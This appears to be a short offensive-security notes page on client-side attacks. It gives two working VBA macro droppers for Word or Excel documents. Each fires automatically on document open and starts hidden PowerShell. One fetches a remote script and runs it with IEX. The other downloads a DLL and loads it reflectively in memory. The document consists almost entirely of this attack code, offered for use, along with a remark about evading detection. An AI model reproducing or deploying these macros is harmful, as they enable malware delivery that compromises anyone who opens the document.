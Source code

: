 # Reflective Code Execution in Client Side Attacks

### Microsoft Word/Excel use VBA

*** Flagged cause of Powershell command.  Basic VBA dropper ***


### This is reflective poewrshell.  This should download ps1 and run it in memory but this gets flagged.  

``` VBA

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.50.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub


######################### OR ############################################ 


Sub MyMacro()
    Dim str As String
    str = "powershell.exe $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.196:4443/DLL_process_hollow.dll'); $assem = [System.Reflection.Assembly]::Load($data); $class = $assem.GetType('ReflectiveDLLCSharp.Class1'); $method = $class.GetMethod('runner');$method.Invoke(0, $null)"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

```

<br><br><br><br><br>

